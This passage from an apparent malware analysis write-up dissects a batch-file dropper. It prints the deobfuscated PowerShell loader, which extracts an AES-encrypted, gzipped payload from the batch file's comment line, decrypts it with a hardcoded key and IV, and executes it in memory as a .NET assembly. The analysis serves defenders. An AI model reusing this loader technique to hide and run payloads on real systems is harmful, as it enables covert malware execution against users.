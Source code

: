 First, the batch file copies the powershell.exe binary to \<filename\>.exe, where \<filename\> is the name of the batch file. It then uses `~nx0`, which in batch terms means the name of the current batch file, and combines it with .exe to get the name of the newly copied powershell.exe binary. From here, it runs a large PowerShell command.

## PowerShell Payload

Copying the `-command` portion of the PowerShell payload and cleaning it up a bit reveals the following:

```PowerShell
$yruxp = [System.IO.File]::('txeTllAdaeR'[-1..-11] -join '')('payload.bat').Split([Environment]::NewLine) 
foreach ($AoHcJ in $yruxp) 
{ 
    if ($AoHcJ.StartsWith(':: ')) 
    {  
        $jSeTT = $AoHcJ.Substring(3)  
        break  
    }  
}
$iPrdF = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')($jSeTT) 
$pstaK = New-Object System.Security.Cryptography.AesManaged 
$pstaK.Mode = [System.Security.Cryptography.CipherMode]::CBC 
$pstaK.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7 
$pstaK.Key = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')('oK9Sb6xmpGv+i/gAJDgfaubHDtLnuOUbT8h3z0NIMvs=') 
$pstaK.IV = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')('CUeA3Qkm0ivKUIPg7zp+ug==') 
$FYwLw = $pstaK.CreateDecryptor() 
$iPrdF = $FYwLw.TransformFinalBlock($iPrdF,0,$iPrdF.Length)
$FYwLw.Dispose() 
$pstaK.Dispose() 
$XhabZ = New-Object System.IO.MemoryStream($iPrdF) 
$lkvIz = New-Object System.IO.MemoryStream 
$oenGH = New-Object System.IO.Compression.GZipStream($XhabZ,[IO.Compression.CompressionMode]::Decompress) 
$oenGH.CopyTo($lkvIz) 
$oenGH.Dispose() 
$XhabZ.Dispose() 
$lkvIz.Dispose() 
$iPrdF = $lkvIz.ToArray()
$QQBse = [System.Reflection.Assembly]::('daoL'[-1..-4] -join '')($iPrdF) 
$qnZNg = $QQBse.EntryPoint 
$qnZNg.Invoke($null  (  [string[]] ('')))
```

This command does a number of things. First, it queries the original batch file, `payload.bat`, for lines that start with "::". If we look back at the original batch file, we can see a large line that starts with the "::" character. The PowerShell command takes the Base64-encoded blob on this line and decodes it. This decoded value is also encrypted with AES-CBC, so the command then decrypts the value with the specified encryption key and IV (also Base64-encoded). Finally, this latest value is compressed with the gzip data format, so it also decompresses it. At this point, the script has the actual payload that was contained within the batch file, which it then loads into the process and executes it.
